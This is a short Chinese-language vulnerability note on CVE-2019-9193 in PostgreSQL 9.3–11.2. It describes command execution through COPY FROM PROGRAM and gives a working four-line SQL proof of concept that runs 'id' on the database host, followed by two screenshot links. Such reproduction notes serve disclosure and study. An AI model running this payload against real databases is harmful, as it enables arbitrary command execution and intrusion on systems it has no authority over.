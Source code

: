 （CVE-2019-9193）PostgreSQL 高权限命令执行漏洞
==============================================

一、漏洞简介
------------

PostgreSQL
9.3至11.2版本中的导入导出数据命令`COPY TO/FROM PROGRAM`存在操作系统命令注入漏洞。攻击者可利用该漏洞获取数据库超级用户权限，从而执行任意系统命令。

二、漏洞影响
------------

PostgreSQL 9.3至11.2

三、复现过程
------------

首先连接到postgres中，并执行如下POC：

    DROP TABLE IF EXISTS cmd_exec;
    CREATE TABLE cmd_exec(cmd_output text);
    COPY cmd_exec FROM PROGRAM 'id';
    SELECT * FROM cmd_exec;

![1.png](resource/(CVE-2019-9193)PostgreSQL高权限命令执行漏洞/media/rId24.png)

![2.png](resource/(CVE-2019-9193)PostgreSQL高权限命令执行漏洞/media/rId25.png)

